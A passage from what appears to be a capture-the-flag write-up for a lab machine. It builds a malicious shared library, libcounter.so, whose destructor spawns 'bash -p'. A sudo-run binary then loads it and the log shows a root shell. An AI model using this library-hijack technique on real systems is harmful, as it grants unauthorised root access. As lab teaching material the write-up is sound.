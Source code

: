```
.symtab
.strtab
.shstrtab
.interp
.note.gnu.property
.note.gnu.build-id
.note.ABI-tag
.gnu.hash
.dynsym
.dynstr
.gnu.version
.gnu.version_r
.rela.dyn
.rela.plt
.init
.plt.got
.text
.fini
.rodata
.eh_frame_hdr
.eh_frame
.init_array
.fini_array
.dynamic
.got.plt
.data
.bss
.comment
```

Analyzing we can say that we have access to `/home/rektsu/.config`, so we will create a `libcounter.so` exploit.

Let's create a file `lib.c`

```
#include <unistd.h>

void begin (void) __attribute__((destructor));
void begin (void) {
  system("bash -p");
}
```
```
$ gcc -shared -fPIC -nostartfiles -o libcounter.so lib.c
$ python3 -m http.server 8080
```

```
rektsu@zipping:/home/rektsu/.config$ sudo /usr/bin/stock
sudo /usr/bin/stock
St0ckM4nager
3
bash -p
whoami
root
```

The machine is rooted.

Thank you!! Happy Hacking :D